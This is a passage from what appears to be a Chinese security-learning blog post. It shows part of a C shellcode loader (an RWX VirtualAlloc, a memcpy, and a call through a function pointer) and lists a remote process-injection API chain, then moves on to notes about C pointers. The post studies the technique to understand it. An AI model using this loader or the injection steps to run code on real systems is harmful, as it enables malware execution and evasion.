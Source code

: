 ```
        "\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";

    typedef void (__stdcall *CODE) ();    
    PVOID p = NULL;    
    if ((p = VirtualAlloc(NULL, sizeof(shellcode1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)   
        MessageBoxA(NULL, "error", "VirtualAlloc", MB_OK);    
    if (!(memcpy(p, shellcode1, sizeof(shellcode1))))    
        MessageBoxA(NULL, "error", "memcpy", MB_OK);    
    CODE code =(CODE)p;       
    code(); 

    return 0;
}
```
 
我也写过好几次进程注入 shellcode 的代码了，写的比较多的是远程进程注入，我的 API 调用链通常是：

1. 打开远程进程的句柄：`OpenProcess`
2. 在远程进程中分配内存：`VirtualAllocEx`
3. 将注入的数据复制到远程进程：`WriteProcessMemory`
4. 要求远程进程执行我们的注入代码：`CreateThread` 等 API。


3gstudent 师傅的这段代码的 API 使用链是：

1. 在内存中为 Shellcode 分配空间：`VirtualAlloc`
2. 将 shellcode 复制到分配的 RWX 内存空间：`memcpy`

>注：shellcode 的确无需一定要注入某个进程。本身 Shellcode 的特点就是：
>
>- 独立的存在，无需任何文件格式的包装。
- 内存中运行，无需固定指定的宿主进程。



3gstudent 这段代码给我的感觉就是没执行 Shellcode，仅仅是把 Shellcode 写入了内存。

咨询了我师父到底这段 Shellcode 是否执行了，他说我基础不扎实，指针没学好，让我打开一本 C 语言基础书看里面的**函数指针**。

本文就是梳理了一遍 《C Primer Plus》 这本书中跟指针有关的内容，最后探究出这段代码是否执行了 Shellcode 的结论。
 
 
#0x02 指针基础
 
 指针（`pointer`）是一个值为内存地址的变量（或数据对象）。指针变量的值为内存地址。
 
 
 **指针变量**
 
 - ptr 指向 bah，也就是 ptr 变量保存了 bah 常量的地址。
 
```
ptr = &bah
```
 
- 通过间接运算符/解引用运算符 `*`，找出储存在 bah 中的值。

```
val = *ptr //找出 ptr 指向的值
```
